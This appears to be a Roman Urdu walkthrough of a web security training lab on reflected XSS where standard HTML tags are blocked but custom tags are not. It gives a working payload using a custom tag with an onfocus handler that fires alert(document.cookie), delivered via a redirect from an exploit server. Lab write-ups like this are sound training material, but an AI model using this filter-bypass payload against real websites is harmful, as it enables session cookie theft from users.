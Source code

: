 # 💻 Yeh kis tarah ki technique thi?

## 🔍 Lab ka Naam:
**Reflected XSS into HTML context with all tags blocked except custom ones**

---

## 🧠 Lab ka Maqsad:
Yeh lab hum se chahta hai ke hum XSS inject karein ek aise page mein jahan:
- **Sab normal HTML tags block** ho jaate hain (jaise <script>, ```<img>```, ```<svg>```)
- Lekin **custom tags** jaise `<xss>`, `<khan>` allowed hain
- Humein aisa payload banana hai jo **alert(document.cookie)** ko fire kare — taake victim ki cookies browser se nikaali ja sakein

---

## 🧪 Working Payload (Exploit server mein daalna hai):

```html```

```<script>```

```location =``` ```'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E#x';```

</script>```

---

🔁 Bas apne lab ki URL daal dena YOUR-LAB-ID ki jagah
Yehi payload use hoga victim ko XSS dene ke liye ✅

### 🔍 Payload Ki Tashreeh

```<khan id="x" onfocus="alert(document.cookie)" tabindex="1">The King</khan>```